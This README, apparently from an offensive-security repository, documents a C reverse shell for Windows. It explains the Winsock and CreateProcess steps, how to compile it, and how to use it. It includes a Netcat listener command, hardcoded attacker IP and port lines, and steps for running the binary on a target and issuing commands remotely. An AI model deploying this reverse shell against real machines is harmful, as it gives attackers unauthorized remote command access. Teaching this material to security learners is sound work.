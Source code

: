 # Reverse Shell Program in C

This directory contains a C program (`reverse_shell.c`) that implements a reverse shell, part of the **BlackHatOps** repository. The program is designed for **educational and research purposes** in offensive security, demonstrating how a reverse shell can connect back to an attacker’s machine on a **Windows** system. This README provides an overview of the code, explains the processes involved, and includes compilation, setup, and usage instructions.

## Overview

The Reverse Shell program (`reverse_shell.c`) establishes a TCP connection from a target Windows machine to an attacker’s machine, redirecting a command shell (e.g., `cmd.exe`) to the attacker. The attacker uses a tool like **Netcat** to listen for the connection. The program is intended for use in controlled environments on systems you own or have explicit permission to test.

## Files

- `reverse_shell.c`: Implements the reverse shell client that connects to the attacker’s machine and spawns a command shell.

## Process Explanation

### reverse_shell.c (Windows)

1. **Winsock Initialization**:
   - The program initializes the Winsock library using `WSAStartup()` to enable socket functionality.

2. **Socket Creation**:
   - A TCP socket is created using `socket()` with the `AF_INET` address family (IPv4) and `SOCK_STREAM` type (TCP).

3. **Connection to Attacker**:
   - The program specifies the attacker’s IP address and port (e.g., `127.0.0.1:4444`) in a `sockaddr_in` structure.
   - The `connect()` function establishes a connection to the attacker’s listening machine.

4. **Redirect Command Shell**:
   - The program sets up a `STARTUPINFO` structure to redirect the standard input, output, and error streams of `cmd.exe` to the socket.
   - `CreateProcess()` launches `cmd.exe`, with its input/output redirected to the socket, allowing the attacker to interact with the command shell remotely.

5. **Cleanup**:
   - The program closes the socket using `closesocket()` and cleans up Winsock with `WSACleanup()`.

### Key Concepts

- **Reverse Shell**: Unlike a bind shell, a reverse shell initiates a connection from the target to the attacker, useful for bypassing firewalls.
- **Winsock**: Windows-specific socket API for network communication.
- **Process Creation**: Uses `CreateProcess()` to spawn `cmd.exe` with redirected I/O.
- **Netcat**: The attacker uses Netcat (`nc`) to listen for the incoming connection and interact with the shell.

## Installation

1. Clone the repository on the Windows target machine:
   ```bash
   git clone https://github.com/CyberForgeEx/BlackHatOps.git
   ```
2. Navigate to the Reverse Shell directory:
   ```bash
   cd BlackHatOps/Basic\ Concepts/Reverse\ Shell
   ```

## Compilation

### Target Machine (Windows)
1. Open CMD (e.g., MSYS2 MinGW 64-bit, Git Bash, or PowerShell with MinGW in PATH).
2. Compile the program:
   ```bash
   gcc -o reverse_shell reverse_shell.c -lws2_32
   ```

## Usage

1. **Set Up the Attacker Machine**:
   - On the attacker machine (Linux or Windows), start a Netcat listener on a chosen port (e.g., `4444`):
     ```bash
     nc -lvp 4444
     ```
     - `-l`: Listen mode.
     - `-v`: Verbose output.
     - `-p 4444`: Specifies the port to listen on.
   - Note the attacker’s IP address (e.g., `192.168.1.100`).

2. **Configure the Reverse Shell**:
   - Edit `reverse_shell.c` to set the attacker’s IP address and port. Modify the lines (_Hardcode the IP and Port_):
     ```c
     server.sin_addr.s_addr = inet_addr("192.168.1.100"); // Attacker's IP
     server.sin_port = htons(4444); // Attacker's port
     ```
   - Replace `192.168.1.100` and `4444` with the attacker’s actual IP and port.
   - Recompile after editing:
     ```bash
     gcc -o reverse_shell reverse_shell.c -lws2_32
     ```

3. **Run the Reverse Shell (Windows)**:
   - On the target machine, execute the compiled binary:
     ```bash
     ./reverse_shell.exe
     ```
   - The program connects to the attacker’s machine and spawns a `cmd.exe` shell.

4. **Interact with the Shell**:
   - On the attacker machine, the Netcat listener receives the connection and provides a command prompt.
   - Type commands (e.g., `dir`, `whoami`) to interact with the target’s command shell.

5. **Output**:
   - The attacker’s Netcat terminal displays the command shell output.
   - Example interaction on attacker terminal:
     ```
      C:\Windows\System32>whoami
      b****************i\****k
     ```


## Testing Requirements

- **Same Network**: The target (Windows) and attacker (Linux/Windows) machines must be on the same network (e.g., local LAN or VPN).
- **Netcat Listener**: The attacker must run Netcat to listen on the specified port before executing the reverse shell.
- **Firewall**: Ensure the attacker’s port (e.g., `4444`) is open and not blocked by a firewall.
- **Administrative Privileges**: The reverse shell may require administrative privileges on the target machine to execute `cmd.exe`.

## Troubleshooting

- **“gcc is not recognized” (Windows)**: Ensure MinGW/MSYS2 is installed and added to PATH.
- **“Connection failed”**: Verify the attacker’s IP and port are correct, the Netcat listener is running, and no firewall blocks the connection.
- **“CreateProcess failed”**: Ensure the program is run with sufficient permissions (e.g., as Administrator).
- **No shell prompt**: Confirm the target and attacker are on the same network and the port matches.

## Disclaimer

This program is for **educational and research purposes only**. Use it only on systems you own or have explicit permission to test. Unauthorized use, including establishing connections to systems without consent, is **illegal and unethical**. The developers are not responsible for misuse or damages. Always comply with local laws and regulations.
